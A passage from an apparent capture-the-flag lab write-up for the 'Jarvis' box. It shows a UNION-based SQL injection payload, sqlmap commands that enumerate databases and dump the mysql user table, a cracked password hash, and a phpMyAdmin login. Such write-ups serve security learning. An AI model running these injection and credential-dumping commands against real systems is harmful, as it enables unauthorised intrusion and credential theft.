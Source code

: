         Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-8368 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707871,0x727a50526445566e634476524a594655416e436156515a667a77797962676967515668766e6e626c,0x71707a7671),NULL-- AwXR
    ---
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: PHP, Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12

We list the available database:

  * hotel
  * infomration\_schema
  * mysq
  * performance\_schema

The SQLmap command is the following:

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1 --dbs
    available databases [4]:
    [*] hotel
    [*] information_schema
    [*] mysql
    [*] performance_schema

We list the table for the `hotel` database and dump it, nothing interesting.

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --tables
    Database: hotel
    [1 table]
    +------+
    | room |
    +------+

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --dump
    Database: hotel
    Table: room
    [6 entries]
    <SNIP>

We dump the mysqluser table and crack the password hash (with the sqlmap
cracking function):

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D mysql -T user --dump
    Database: mysql
    Table: user
    [1 entry]
    *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 (imissyou)

We can then connect to the phpmyadmin as DBadmin:

![Jarvis phpmyadmin](/media/2019.10/jarvis_5.png)
